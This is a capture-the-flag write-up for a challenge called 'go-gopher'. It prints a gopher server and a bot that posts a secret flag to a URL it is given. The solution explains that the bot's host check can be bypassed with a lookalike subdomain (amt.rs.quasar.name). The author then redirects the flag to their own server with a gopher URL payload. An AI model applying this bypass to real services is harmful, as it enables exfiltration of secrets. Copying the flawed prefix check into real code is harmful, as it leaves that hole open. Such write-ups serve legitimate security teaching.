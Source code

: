 # go-gopher

## problem

main.go
```go
package main

import (
	"fmt"
	"log"
	"net/url"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

func index(w gopher.ResponseWriter, r *gopher.Request) {
	w.WriteInfo("Welcome to the flag submitter!")
	w.WriteInfo("Please submit all your flags!")
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/submit/user",
		Description: "Submit flags here!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:https://ctf.amateurs.team/",
		Description: "Get me more flags lackeys!!",
	})
	w.WriteItem(&gopher.Item{
		Type:        gopher.DIRECTORY,
		Selector:    "/",
		Description: "Nice gopher proxy",
		Host:        "gopher.floodgap.com",
		Port:        70,
	})
}

func submit(w gopher.ResponseWriter, r *gopher.Request) {
	name := strings.Split(r.Selector, "/")[2]
	undecoded, err := url.QueryUnescape(name)
	if err != nil {
		w.WriteError(err.Error())
	}
	w.WriteInfo(fmt.Sprintf("Hello %s", undecoded))
	w.WriteInfo("Please send a post request containing your flag at the server down below.")
	w.WriteItem(&gopher.Item{
		Type:        gopher.FILE,
		Selector:    "URL:http://amt.rs/gophers-catcher-not-in-scope",
		Description: "Submit here! (gopher doesn't have forms D:)",
		Host:        "error.host",
		Port:        1,
	})
}

func main() {
	mux := gopher.NewServeMux()

	mux.HandleFunc("/", index)
	mux.HandleFunc("/submit/", submit)

	log.Fatal(gopher.ListenAndServe("0.0.0.0:7000", mux))
}
```

bot.go
```py
package main

import (
	"bytes"
	"fmt"
	"log"
	"net/http"
	"net/url"
	"os"
	"strings"

	"git.mills.io/prologic/go-gopher"
)

var flag = []byte{}

func main() {
	content, err := os.ReadFile("flag.txt")
	if err != nil {
		log.Fatal(err)
	}
	flag = content

	http.HandleFunc("/submit", Submit)
	http.HandleFunc("/", Index)
	if err := http.ListenAndServe(":8080", nil); err != nil {
		log.Fatal(err)
	}
}

func Index(w http.ResponseWriter, r *http.Request) {
	http.ServeFile(w, r, "index.html")
}

func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || !strings.HasPrefix(u.Host, "amt.rs") {
		w.Write([]byte("Invalid url"))
		return
	}

	w.Write([]byte(Visit(r.Form.Get("url"))))
}

func Visit(url string) string {
	fmt.Println(url)
	res, err := gopher.Get(url)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}
	h, _ := res.Dir.ToText()
	fmt.Println(string(h))

	url, _ = strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(url)
	_, err = http.Post(url, "text/plain", bytes.NewBuffer(flag))

	if err != nil {
		return "Failed to make request"
	}

	return "Successful visit"
}
```
## solution

here, we can see that a website is created by the bot to visit a gopher server and then send a post request with the flag in it.

here is a vulnerable code:

```go
func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	// hmm
	if err != nil || !strings.HasPrefix(u.Host, "amt.rs") {
		w.Write([]byte("Invalid url"))
		return
	}

	w.Write([]byte(Visit(r.Form.Get("url"))))
}
```

do you see it?

the main idea here, is that `strings.HasPrefix(u.Host, "amt.rs")` doesn't really work because we could have say `amt.rs.quasar.name` and totally bypass it

you had to buy a domain name for this one to get the amt.rs fourth and third level domains, which made me like the challenge slightly less. luckily i already had a domain name to use

anyways, i set up an http server using [this](https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7), and just ran the main.go server on my remote server as well

it took me a while to set up, but i was able to get the flag by sending `gopher://amt.rs.quasar.name/1/submit/user` to the bot, 
and changing the main.go file on my remote server to have `quasar.name` instead of `error.host`.

edit: someone told me it's possible to use the solution for [gophers-revenge](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/gophers-revenge) for this, but doesn't that defeat the entire point of having a second challenge??????
